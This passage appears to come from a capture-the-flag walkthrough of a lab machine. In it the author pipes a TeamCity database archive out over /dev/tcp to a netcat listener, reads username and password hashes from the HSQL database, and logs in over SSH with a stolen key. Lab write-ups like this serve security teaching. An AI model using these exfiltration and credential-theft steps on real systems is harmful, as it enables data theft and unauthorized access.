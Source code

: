 

I'll exfil it using Bash:



    tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ cat buildserver.tar > /dev/tcp/10.10.14.6/5555



At my host, `nc` gets the file:



    oxdf@hacky$ nc -lnvp 5555 > buildserver.tar
    Listening on 0.0.0.0 5555
    Connection received on 10.10.11.13 37396
    oxdf@hacky$ md5sum buildserver.tar 
    d6ad814b8302bd69015cc285ec5b8a99  buildserver.tar



I'll [download the HSQL
server](https://sourceforge.net/projects/hsqldb/) and unpack it, running
it with `java`:



    oxdf@hacky$ java -jar hsqldb-2.7.2/hsqldb/lib/hsqldb.jar 



At the connection screen, I'll switch it to "Standalone" and give the
URL pointing "buildserver" just like in the TeamCity container:

![](/img/image-20240426131145951.png)

On clicking "Ok", it shows all the tables:

![](/img/image-20240426131221193.png)

`SELECT * FROM USERS;` will find the data:

![](/img/image-20240426131302577.png)

That's two usernames and two hashes.

#### Connect

Regardless of how I get the username, I can connect as john:



    oxdf@hacky$ ssh -i id_rsa john@runner.htb
    Warning: Permanently added 'runner.htb' (ED25519) to the list of known hosts.
    Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)
    ...[snip]...
    john@runner:~$



And grab `user.txt`:

